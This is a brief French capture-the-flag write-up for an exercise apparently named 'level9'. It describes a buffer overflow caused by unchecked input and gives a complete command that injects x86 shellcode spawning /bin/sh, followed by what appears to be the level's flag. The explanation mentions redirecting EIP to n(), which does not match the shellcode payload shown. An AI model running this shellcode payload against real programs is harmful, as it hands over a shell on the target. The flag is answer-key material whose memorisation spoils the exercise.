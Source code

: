 # Analyse du code

Dans le code nous voyons qu'il n'y a pas de controle dans les inputs utilisateur. il y a une fonction  n(), qui execute un bash.
On va exploiter ce buffer overflow en redirigant EIP vers n()

# Preparation du payload

on veut que memcpy renvoie a l'adresse ou on a save notre shellcode d'ou l'adresse au debut de la chaine

./level9 $(python -c "print('\x0c\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A'*(108 - 4 - 21) + '\x0c\xa0\x04\x08')")
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728